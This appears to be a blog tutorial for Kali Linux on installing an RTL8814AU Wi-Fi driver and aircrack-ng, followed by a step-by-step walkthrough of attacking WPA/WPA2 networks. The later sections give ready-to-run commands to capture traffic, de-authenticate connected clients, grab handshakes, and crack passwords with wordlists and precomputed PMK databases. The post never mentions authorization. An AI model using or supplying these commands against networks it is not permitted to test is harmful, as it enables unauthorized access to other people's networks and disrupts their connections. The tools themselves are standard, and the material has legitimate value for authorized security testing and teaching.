 ```yaml
---
title: "Using Aircrack-ng with RTL8814AU"
date: "2019-07-28"
lastmod: "2019-07-28"
tags: [Airmon-ng, Aircrack-ng, RTL8814AU, RTL8812AU, Wi-Fi, Kali Linux, Raspberry Pi, ARM]
type: Blog
draft: false
summary: "Setting up and using Aircrack-ng wireless security tools with the RTL8814AU chipset on Linux, including driver installation, monitor mode configuration, and practical wireless testing applications."
license: CC BY-SA 4.0
---
```

For Kali Linux users who want to hack 2.4/5GHz Wi-Fi.
RTL8812AU/21AU and RTL8814AU are the best chipsets.

Here's the wifi dongle I'm going to use: [TP-LINK Archer T9UH](https://wikidevi.com/wiki/TP-LINK_Archer_T9UH)

![Archer-T9UH.png](/static/images/Archer-T9UH.webp)

Here's the wifi driver I'm going to use: [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au.git)

## Installing Driver

Plug-in your Wi-Fi dongle. Execute `lsusb`.

```sh
lsusb
```

![Archer-T9UH-lsusb.png](/static/images/Archer-T9UH-lsusb.webp)

Check if the device ID is supported by the [driver](https://github.com/aircrack-ng/rtl8812au/blob/v5.6.4.1/os_dep/linux/usb_intf.c#L259)

```c
{USB_DEVICE(0x2357, 0x0106), .driver_info = RTL8814A}, /* TP-LINK Archer T9UH */
```

The ID of TP-LINK Archer T9UH is `2357:0106`.

Clone the project

```sh
git clone https://github.com/aircrack-ng/rtl8812au.git
```

RTL8814AU is newer than RTL8812AU.

Some improvements come with the latest version.

Checkout to the newest git branch.

```sh
git checkout v5.6.4.1
```

The installation is pretty easy. Just use the script.

```sh
sudo apt install dkms
sudo ./dkms-install.sh
```

If you are using ARM CPU such as Raspberry Pi. Change platform in Makefile.

e.g. I'm using RPI 3 B+ with the official Raspbian OS. It's 32 bit.

```sh
sed -i 's/CONFIG_PLATFORM_I386_PC = y/CONFIG_PLATFORM_I386_PC = n/g' Makefile
sed -i 's/CONFIG_PLATFORM_ARM_RPI = n/CONFIG_PLATFORM_ARM_RPI = y/g' Makefile
```

If you are using Kali Linux. You can also install the driver from source.

```sh
sudo apt install realtek-rtl88xxau-dkms
```

## Installing Aircrack-ng

(Aircrack-ng is preinstalled in Kali Linux)

```sh
sudo apt install aircrack-ng
```

Here's the official instruction: [Installing pre-compiled binaries](https://aircrack-ng.org/doku.php?id=install_aircrack#installing_pre-compiled_binaries)

If you want to compile it on your own.

The latest stable version is 1.5.2 currently.

```sh
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
git checkout 1.5.2
```

```sh
sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

```sh
./autogen.sh
make
make install
```

## Monitoring Wi-Fi

Check interfaces

```sh
sudo airmon-ng
```

```sh
PHY	Interface	Driver		Chipset

phy0	wlan0		brcmfmac	Broadcom 43430
phy1	wlan1		88XXau		TP-Link
```

Kill all possible programs that could interfere with the wireless card.

```sh
sudo airmon-ng check kill
```

Turn wlan1(RTL8814AU) into monitor mode.

```sh
sudo airmon-ng start wlan1
```

OR

```sh
sudo iwconfig wlan1 mode Monitor
```

Then

```sh
sudo airodump-ng wlan1
```

OR indicate the band 'a' to hop 5GHz

```sh
sudo airodump-ng wlan1 -b a
```

## Crack WPA/WPA2 Wi-Fi Password

Capture Data

```sh
sudo airodump-ng -c 36 –d XX:XX:XX:XX:XX:XX -w hack wlan1
```

De-authenticate the connected clients with `aireplay-ng`

`-0` means de-auth, 50 means 50 counts.  
`-a` sets Access Point MAC address.  
`-c` sets destination MAC address.  

```sh
sudo aireplay-ng -0 50 -a XX:XX:XX:XX:XX:XX -c [Client MAC Address] wlan1
```

You'll get a WPA handshake

![WPA-handshake.png](/static/images/WPA-handshake.webp)

Crack password with dictionary-attack

```sh
aircrack-ng -b XX:XX:XX:XX:XX:XX hack-01.cap -w /path/to/wordlist
```

Here is a project on GitHub for dictionary-attack: [Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)

## Speed up Crack with Airolib-ng

>Airolib-ng is an aircrack-ng suite tool designed to store and manage essid and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking.

### Download Passwords dictionary

[Probable-Wordlists Downloads](https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md)

### Setting up the database

#### Create SSID list

```sh
airolib-ng wpaDatabase --import essid ssidlist.txt
```

#### Create Password list

```sh
airolib-ng wpaDatabase --import passwd passwords.txt
```

#### Clean Database

```sh
airolib-ng wpaDatabase --clean all
```

#### Create your PMK’s

```sh
airolib-ng wpaDatabase --batch
```

#### Cracking

```sh
aircrack-ng -r wpaDatabase hack-01.cap
```

